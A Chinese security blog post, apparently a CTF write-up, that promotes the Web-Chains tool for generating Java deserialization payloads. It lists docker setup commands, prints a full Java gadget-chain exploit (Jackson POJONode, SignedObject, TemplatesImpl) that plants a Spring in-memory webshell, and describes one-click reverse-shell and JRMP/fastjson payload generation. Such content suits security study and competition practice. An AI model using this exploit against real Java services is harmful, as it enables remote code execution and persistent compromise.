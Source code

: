 #  [随手分享]Web-Chains在Java赛题中的利用   
原创 DatouYoo  大头SEC   2025-02-08 05:20  
  
## 项目地址  
  
地址如下：  
- https://github.com/Java-Chains/web-chains  
  
安装命令：  
```
docker run -d \  --name web-chains \  --restart=always \  -p 8011:8011 \  -p 58080:58080 \  -p 50389:50389 \  -p 50388:50388 \  -p 13999:13999 \  -p 3308:3308 \  -p 11527:11527 \  -p 50000:50000 \  -e CHAINS_AUTH=true \  -e CHAINS_PASS= \  javachains/webchains:1.3.0
```  
  
查看登录密码：  
```
docker logs $(docker ps | grep javachains/webchains | awk '{print $1}') | grep -E 'password'
```  
  
浏览器访问8011端口登录后台：  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6icsibVwIpj8icY6lVxqOOoicuMBhibWTVpu75x9vwfDVw8muEkUAA5LfVYxNDUKK7S3B2diazmuLFGtKJRkg/640?wx_fmt=png&from=appmsg "")  
  
image.png  
## 案例介绍  
### 一键生成原生序列化数据  
> 以“2023浙江大学生省赛初赛 secObj”为例  
  
  
原调用链如下：  
```
HashMap#readObject-> HashMap#putVal-> HotSwappableTargetSource#equals-> XString#equals -> POJONode#toString-> SignedObject#getObject -> BadAttributeValueExpException#readObject-> BaseJsonNode#toString-> TemplatesImpl#getOutputProperties
```  
  
原EXP如下（近100行）：  
```
import com.fasterxml.jackson.databind.node.POJONode;import com.sun.org.apache.bcel.internal.Repository;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xpath.internal.objects.XString;import javassist.ClassPool;import javassist.CtClass;import javassist.CtMethod;import org.springframework.aop.framework.AdvisedSupport;import org.springframework.aop.target.HotSwappableTargetSource;import javax.management.BadAttributeValueExpException;import javax.xml.transform.Templates;import java.io.ByteArrayOutputStream;import java.io.ObjectOutputStream;import java.lang.reflect.*;import java.security.*;import java.util.Base64;import java.util.HashMap;publicclass SignedObjectBAVEPoC {    public static void main(String[] args) throws Exception {        // 删除 BaseJsonNode#writeReplace 方法        ClassPool pool = ClassPool.getDefault();        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");        ctClass0.removeMethod(writeReplace);        ctClass0.toClass();        // 比赛时不出网，打Spring内存马        byte[] bytes = Repository.lookupClass(SpringMemShell.class).getBytes();        Templates templatesImpl = new TemplatesImpl();        setFieldValue(templatesImpl, "_bytecodes", newbyte[][]{bytes});        setFieldValue(templatesImpl, "_name", "aaaa");        setFieldValue(templatesImpl, "_tfactory", null);        // 内层 BadAttributeValueExpException#readObject -> BaseJsonNode#toString        POJONode po1= new POJONode(makeTemplatesImplAopProxy(templatesImpl));        BadAttributeValueExpException ba1= new BadAttributeValueExpException(1);        setFieldValue(ba1,"val",po1);        KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");        keyPairGenerator.initialize(1024);        KeyPair keyPair = keyPairGenerator.genKeyPair();        PrivateKey privateKey = keyPair.getPrivate();        Signature signingEngine = Signature.getInstance("DSA");        SignedObject signedObject = new SignedObject( ba1, privateKey, signingEngine);        POJONode jsonNodes = new POJONode(1);        setFieldValue(jsonNodes,"_value",signedObject);        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(jsonNodes);        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("1"));        HashMap hashMap = makeMap(hotSwappableTargetSource1, hotSwappableTargetSource2);        ByteArrayOutputStream barr = new ByteArrayOutputStream();        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);        objectOutputStream.writeObject(hashMap);        objectOutputStream.close();        String res = Base64.getEncoder().encodeToString(barr.toByteArray());        System.out.println(res);    }    // 解决 jackson 链不稳定性问题（当然，如果运气好，不用它也行）    public static Object makeTemplatesImplAopProxy(Templates templates) throws Exception {        AdvisedSupport advisedSupport = new AdvisedSupport();        advisedSupport.setTarget(templates);        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);        constructor.setAccessible(true);        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);        return proxy;    }    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{        Field f = obj.getClass().getDeclaredField(field);        f.setAccessible(true);        f.set(obj, arg);    }    public static HashMap<Object, Object> makeMap (Object v1, Object v2 ) throws Exception {        HashMap<Object, Object> s = new HashMap<>();        setFieldValue(s, "size", 2);        Class<?> nodeC;        try {            nodeC = Class.forName("java.util.HashMap$Node");        }        catch ( ClassNotFoundException e ) {            nodeC = Class.forName("java.util.HashMap$Entry");        }        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);        nodeCons.setAccessible(true);        Object tbl = Array.newInstance(nodeC, 2);        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));        setFieldValue(s, "table", tbl);        return s;    }}
```  
  
通过Web-Chains工具生成仅需“点点点几下-输入反弹shell的IP端口”即可生成：  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6icsibVwIpj8icY6lVxqOOoicuMBhS8BS8alvx6w2nozAqhKANbf4AkZyaklNnJiaCWunf1MSq7pGsuNjiaHQ/640?wx_fmt=png&from=appmsg "")  
  
image.png  
  
一键RCE，免去了手动写EXP的过程（当然，分析还是需要的）  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6icsibVwIpj8icY6lVxqOOoicuMBhlhzVwJ9ib6j70GbNCCeichRGiatteXokGhNkUJP61mwKCgWL08VUmpgsA/640?wx_fmt=png&from=appmsg "")  
  
image.png  
### 一键生成JRMP需要的反序列化数据  
> 以“2022年网鼎杯 ezjava”赛题为例  
  
  
如果遇到JRMP需要自定义反序列化数据（如fastjson链），需要“在ysoserial新增fastjson链-打包-上传到vps”等等操作  
  
而在Web-Chains中仅需“绑定JRMPListener所需的链子-生成JRMPClient数据”即可  
  
下图将fastjson链绑定至JRMPListener中  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6icsibVwIpj8icY6lVxqOOoicuMBhxWrOZRakkeiaLwRflElBLUujR3djKWFW7vHuFkkBia9xVtbnfZCQQDsg/640?wx_fmt=png&from=appmsg "")  
  
image.png  
  
生成JRMPClient数据  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6icsibVwIpj8icY6lVxqOOoicuMBh1YMiaqcVfLD7kdic2S4MA3eDZeJjBaZdho8SGIavBGD8FpOq6JJPo0RA/640?wx_fmt=png&from=appmsg "")  
  
image.png  
  
发送EXP实现RCE  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6icsibVwIpj8icY6lVxqOOoicuMBhxTbKW2eiaUyOADFL7cjGticG2gEK23T3mgbQX0VXbzdnbOThNt3zClHw/640?wx_fmt=png&from=appmsg "")  
  
image.png  
### 其他  
  
还有很多可以通过Web-Chains一键RCE的赛题，这里就简单介绍这两种~  
  
  
